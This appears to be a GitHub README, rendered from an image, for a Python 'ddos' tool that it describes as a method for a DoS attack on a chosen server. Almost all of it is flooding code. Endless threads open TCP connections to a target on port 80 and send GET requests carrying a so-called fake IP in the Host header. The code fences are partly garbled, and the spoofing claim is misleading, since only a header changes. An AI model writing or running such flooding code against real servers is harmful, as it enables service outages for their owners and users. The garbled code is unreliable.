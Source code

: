 # ddos
### A method for dos attack on the desired server

```

import socket # for connection

import threading # for Multitasking at the same time

```
### We start writing the rest of the tool code

# Setting up a fake IP and attacking the target host
‍‍‍‍```
‍‍‍‍import socket
import threading

target = '127.0.0.1' # target ip
fake_ip = '108.61.128.158'
port = 80

```
an = 0
def attack():
    while True:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((target, port))
        client.sendto(("GET /" + target + " HTTP/2\r\n").encode('ascii'), (target, port))
        client.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        
        global an
        an += 1
        print(an)
        
        client.close()
```
```
while True:
    thread = threading.Thread(target=attack)
    thread.start()
```

# Don't be disappointed
